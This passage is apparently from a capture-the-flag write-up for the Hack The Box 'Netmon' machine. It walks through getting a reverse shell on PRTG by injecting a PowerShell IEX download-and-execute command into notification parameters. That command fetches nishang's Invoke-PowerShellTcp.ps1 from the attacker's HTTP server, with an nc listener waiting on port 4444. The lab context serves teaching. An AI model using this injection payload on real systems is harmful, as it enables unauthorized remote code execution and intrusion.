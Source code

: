 <div style="text-align:center"><img src="/assets/Netmon/netmon6.png" alt="Running the script"/></div><br/>

<div style="text-align:center"><img src="/assets/Netmon/netmon7.png" alt="Running the script"/></div><br/>

Sadly, we see nothing in our console. Next, try to change `.bat` to `.ps`.

<div style="text-align:center"><img src="/assets/Netmon/netmon8.png" alt="Running the script"/></div><br/>

Voila, it's the `.ps` script that runs correctly! Clone nishang if you haven't already from [his Github](https://github.com/samratashok/nishang) and copy the `InvokePowershellTcp.ps1` script into your working directory with `cp`.

Open up the script in the editor of your choice and add the following line at the end

<div style="text-align:center"><img src="/assets/Netmon/netmon9.png" alt="Running the script"/></div><br/>

Next, just setup a python server with the `SimpleHTTPServer` package in your working directory(we plan to tell PRTG to pick up our `InvokePowershellTcp.ps1` file from here) and a `nc` server on port 4444(or any port, but it must be the same as specified in the ps1 script).

Next, use this snippet in the notification params in PRTG.

```powershell
test ; IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')
```

This basically is a Powershell method of downloading a file from a remote server. If you check your python console, you'd see a `GET` request for the powershell file had been made. So now our file is on the server and is being run.

<div style="text-align:center"><img src="/assets/Netmon/netmon10.png" alt="Running the script"/></div><br/>
